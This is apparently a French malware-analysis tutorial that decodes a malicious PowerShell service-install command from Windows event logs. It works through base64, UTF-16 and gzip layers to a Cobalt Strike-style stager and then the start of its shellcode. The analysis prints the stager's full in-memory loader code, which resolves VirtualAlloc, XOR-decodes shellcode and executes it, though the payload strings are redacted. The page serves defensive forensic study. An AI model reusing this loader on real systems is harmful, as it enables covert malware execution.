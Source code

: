 ```yaml
---
layout: default
permalink: /malwarelab/tuto/decoder-shellcode
title: Décoder les commandes Powershell d'un malware et le shellcode
tag: tuto_malware
category: post
---
```


## Décoder les commandes Powershell d'un malware et le shellcode

Lors de la compromission d'une machine, l'une des premières choses que l'on analyse sont les journaux d'évènement Windows. Ces derniers peuvent nous en dire long sur les actions de l'attaquant. Il est même parfois possible de reconstruire toute la chaîne d'exécution du malware, du vecteur d'entrée à l'exécution du binaire malveillant.

Nous allons ici nous intéresser ici à un malware s'installant sur une machine en se faisant passer pour un service. C'est une technique assez répendue afin d'outrepasser la vigilence de l'utilisateur.

Dans les journaux d'évènements, les traces de commandes Powershell peuvent être visibles dans plusieurs fichiers (Security, Microsoft-Windows-PowerShell/Operational... ). Ici, comme il s'agit d'un service qui s'installe, nous verrons les traces d'exécution dans le fichier Système.evtx (event id : 7045).

![Evtx_PS.png](/img/decode-shellcode/Evtx_PS.png)

Nous allons décoder cette chaîne en base64 simplement avec Python :

```python
>>> import io
>>> import base64

>>> data = "JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8[REDACTED]"

>>> base64.b64decode(data)
b'$\x00s\x00=\x00N\x00e\x00w\x00-\x00O\x00b\x00j\x00e\x00c\x00t\x00 \x00I\x00O\x00.\x00M\x00e\x00m\x00o\x00r\x00y\x00S\x00t\x00r\x00e\x00a\x00m\x00(\x00,\x00[\x00C\x00o\x00n\x00v\x00e\x00r\x00t\x00]\x00:\x00:\x00F\x00r\x00o\x00m\x00B\x00a\x00s\x00e\x006\x004\x00S\x00t\x00r\x00i\x00n\x00g\x00(\x00"\x00H\x004\x00s\x00I\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00K\x001\x00W\x007\x003\x00P\x00a\x00O\x00B\x00P\x00+\x00H\x00P\x004\x00K\x00f\x00c\x00i\x00M\x007\x00S\x00l\x00Q\x00E\x00n\x00J\x00p\x006\x00E\x001\x00m\x00y\x00m\x00/[REDACTED]'
```

A la vue du résultat, les nombreux "\x00" nous ammènent à penser que la chaîne est encodée en UTF-16. Un coup de <code>decode("UTF-16")</code> et le tour est joué !

```python
>>> base64.b64decode(data).decode("UTF-16")
'$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REEDACTED]"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();'
```

Nous obtenons un script Powershell qui semble contenir encore une couche d'encodage de base64.

Rebelotte, décodons la chaîne en base 64 avec Python.

```python
>>> data = "H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REDACTED]"

>>> base64.b64decode(data)
b'\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00\xadV\xefs\xda8\x13\xfe\x1c\xfe\n}\xc8\x8c\xed)P\x12ri\xe8Mf\xcao\xcc\x0b\x84\xc6$\xa1\xe5\x18F\xc821\x11\x16H\xb2\xc1\\\xfb\xbf\xbf+\x1bs\xf4\x9a\xbcog\xee2\xc3D\x96vW\xbb\xcf>\xbb+\x87\xaa\x82\xa3\x84OT\x9f\xbb\x14\x15\x1e\xa9\x90>\x0f\xd0e.w\xde\xe0\xb6B\xb7\xe8\x93\x91\xf3\xc2\x80(\xbd\xad\x17\xb3\x05U\xb3\xb5\xe0d\x86]WP)\xd1\x9f\xb9\xb3!\x16x\x85\xcc\xf3\x08\x8b\xd9\x8a\xbb!\xa3y\x94|hA\xea\x86\x82Zgg\xb9\xb3d+\x0c$\xf6\xe8,\xc0\xca\x8f\xe8lE\xd53w%\\dN\xaa\xebu\x83\xaf\xb0\x1fL?~\xac\x87B\xd0@\xa5\xdf\xc56UU)\xe9j\xce|*M\x0b}CO\xcfT\xd0\xc2\xdd|I\x89B\x7f\xa2\xf3Y\xb1\xcd\xf8\x1c\xb3\x83X\\\xc7\xe4\x19\x02\xaa\x06\xae>\xebq\x82u\x04Eg\xcd|e\x1a\x7f\xfcaX\x93\xc2\xc5\xb4\xd8\xdc\x84\x98I\xd3pb\xa9\xe8\xaa\xe82fX\xe8\xbb\xa5[REDACTED]'
```

Pas d'UTF-16 cette fois. En revanche, la chaîne est compressée. Dans le code Powershell obtenu, la chaîne est décodée puis décompressée <code>IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress)</code>. Ce que nous allons donc reproduire avec notre chaîne fraîchement décodée .

```python
>>> zipped = io.BytesIO(base64.b64decode(data))
>>> f = gzip.GzipFile(fileobj=zipped)
>>> f.read()
b"Set-StrictMode -Version 2\n\n$DoIt = @'\nfunction func_get_proc_address {\n\tParam ($var_module, $var_procedure)\t\t\n\t$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')\n\t$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))\n\treturn $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))\n}\n\nfunction func_get_delegate_type {\n\tParam (\n\t\t[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,\n\t\t[Parameter(Position = 1)] [Type] $var_return_type = [Void]\n\t)\n\n\t$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])\n\t$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')\n\t$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')\n\n\treturn $var_type_builder.CreateType()\n}\n\n[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0[REDACTED]')\n\nfor ($x = 0; $x -lt $var_code.Count; $x++) {\n\t$var_code[$x] = $var_code[$x] -bxor 35\n}\n\n$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))\n$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)\n[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)\n\n$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))\n$var_runme.Invoke([IntPtr]::Zero)\n'@\n\nIf ([IntPtr]::size -eq 8) {\n\tstart-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job\n}\nelse {\n\tIEX $DoIt\n}\n"
```

Nous obtenons alors un script Powershell contenant encore une fois une donnée encodée en base 64. Cependant, une grande partie du code est lisible :

```powershell
Set-StrictMode -Version 2

$DoIt = @'
function func_get_proc_address {
	Param ($var_module, $var_procedure)		
	$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
		[Parameter(Position = 1)] [Type] $var_return_type = [Void]
	)

	$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
	$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

	return $var_type_builder.CreateType()
}

[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0JfIQ8D4uwuIuTB03F0qHEzqGEfIvOoY1um41dpIvNzqGs7qHsDIvDAH2qoF6gi9RLcEuOP4uwuIuQbw1bXIF7bGF4HVsF7qHsHIvBFqC9oqHs[REDACTED]')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
'@

If ([IntPtr]::size -eq 8) {
	start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
	IEX $DoIt
}
```

Que fait ce script ? Grossomodo, alloue de la mémoire afin de pouvoir y stocker la chaîne encodée en base 64 et enfin l'exécuter. Une fois n'est pas coutume, décodons cette chaîne. Notons que la chaîne, une fois décodée est XORée avec 35.

Ce script est très utilisée notamment par les malwares afin d'envoyer un beacon CobaltStrike au serveur de contrôle - à savoir, pour lui envoyer les informations concernant la nouvelle machine tout juste infectée. Ce qui implique que dans notre dernière chaîne encodée/XORée, nous allons trouver un shellcode qui pourrait nous donner quelques informations utiles !

Une autre manière d'obtenir notre shellcode est d'exécuter la commande dans un terminale ISE :

```
[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0JfIQ8D4uwuIuTB03F0qHEzqGEfIvOoY1um41dpIvNzqGs[REDACTED]')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

Write-Output $var_code
```

Nous obtenons de cette manière une chaîne décimale, qu'on l'on va convertir en hexadécimal.

```
252 232 130 0 0 0 96 137 229 49 192 100 139 80 48 139 82 12 [REDACTED]

fc e8 82 00 00 00 60 89 e5 31 c0 64 8b 50 30 8b 52 0c 8b 52 [REDACTED]
```

# Désassembler le shellcode

Pour comprendre ce que fait notre shellcode, nous pouvons le désassembler avec shellen (https://github.com/merrychap/shellen).

![dsm_shellcode1.PNG](/img/decode-shellcode/dsm_shellcode1.PNG)
